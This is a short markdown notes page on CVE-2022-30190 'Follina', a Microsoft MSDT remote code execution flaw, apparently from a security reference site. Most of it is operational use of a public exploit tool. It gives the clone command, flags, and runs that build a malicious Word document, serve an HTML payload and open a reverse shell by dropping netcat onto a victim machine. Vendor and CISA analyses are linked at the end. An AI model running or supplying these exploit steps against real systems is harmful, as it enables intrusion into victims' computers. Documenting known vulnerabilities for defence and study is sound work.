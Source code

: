 ```yaml
---
title : "CVE-2022-30190"
# pre : ' '
description : "Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'."
date : 2022-06-02T11:07:21+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2022-30190 - Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'

![Example](images/example1.png)

### Installation

```plain
git clone https://github.com/JohnHammond/msdt-follina
```

### Usage

```plain
follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]
```

### Flags

```plain
options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

### Examples

Pop `calc.exe`:

```plain
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```plain
python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```plain
python3 follina.py -r 9001
```

![Example](images/example2.png)

### URL list

* [Github.com - msdt-follina](https://github.com/JohnHammond/msdt-follina)
* [YouTube.com - let’s play with a ZERO-DAY vulnerability 'follina'](https://www.youtube.com/watch?v=3ytqP1QvhUc)
* [Fortinet.com - Analysis of Follina Zero Day](https://www.fortinet.com/blog/threat-research/analysis-of-follina-zero-day)
* [Kaspersky.com - Follina: office documents as an entrance](https://www.kaspersky.com/blog/follina-cve-2022-30190-msdt/44461/)
* [Cisa.gov - Microsoft Releases Workaround Guidance for MSDT 'Follina' Vulnerability](https://www.cisa.gov/uscert/ncas/current-activity/2022/05/31/microsoft-releases-workaround-guidance-msdt-follina-vulnerability)
